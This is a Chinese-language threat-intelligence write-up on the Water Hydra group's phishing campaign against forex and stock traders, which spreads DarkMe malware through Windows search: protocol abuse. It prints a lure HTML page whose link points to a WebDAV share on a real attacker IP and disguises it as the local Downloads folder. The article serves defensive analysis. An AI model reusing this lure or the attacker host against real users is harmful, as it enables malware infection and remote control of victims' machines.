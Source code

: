 在攻击链中，Water Hydra  
在外汇交易论坛和股票交易  
Telegram  
频道上部署了鱼叉式网络钓鱼活动，利用各种社会工程技术（例如发布请求或提供交易的消息），引诱交易者感染  
DarkMe  
恶意软件。  
攻击者会诱导用户进入一个受感染的俄罗斯加密货币信息网站，该网页上有一个指向股票图表（实际上是远控木马）  
的UR  
L  
，而受害者往往会被引诱点击该链接。一旦点击了该连接并在本地资源管理器打开，很容易被诱导点击伪装成图片的远程恶意  
URL  
文件，从而感染木马。  
  
初始的钓鱼网站类似于如下所示，这其实是一个精心构造的  
html  
网页，其中包含了一个指向指向恶意  
WebDAV  
共享的链接，其中包含了经过  
精心设计的视图。当用户单击此链接时，浏览器将要求他们在Windows  
资源管理器中打开该链接。  
由于这并非  
安全提示，因此用户可能不会认为该链接是恶意的。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/975QoDl7XibThNCIOkldjvzDpb47EYK6T3ibogSB1etdP0PIdCh0LccLwWXiauE2A3ZTGNKqjNbtQZ5JUBwtaFv7g/640?wx_fmt=png&from=appmsg "")  
  
当用户选择了打开后，在这里攻击者滥用了Microsoft Windows 搜索的应用程序协议来引诱受害者点击恶意Internet快捷方式(.url)文件。search:协议调用Windows桌面搜索应用程序。在这里利用search:协议和精心设计的高级查询语法 (AQS) 查询来自定义Windows资源管理器视图的外观，以欺骗受害者。  
```
<! DOCTYPE html>
<htm1>
<head>Photo Download</head>
<body>
<p>
    <a href="search:query=photo_2024-02-28.jpg&crumb=location:\\101.33.117.154@8077\webdav\images&displayname=Downloads">photo_2024-02-28.jpg</a>
</p>
</body>
</html>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/975QoDl7XibThNCIOkldjvzDpb47EYK6TUMFC24PF8tVnnxerR9XJZVaLTNYjmGrIy8FictOnOibnFqVDxCmOfiaMQ/640?wx_fmt=png&from=appmsg "")  
  
上图  
显示了包含恶意搜索的HTML   
URL  
链接。  
search:  
应用程序协议来执行对photo_2024-02-28.jpg   
的搜索  
，  
crumb   
参数将搜索范围限制为恶意 WebDAV   
共享  
，而  
DisplayName   
元素欺骗用户使其认为这是本地下载文件夹。  
  
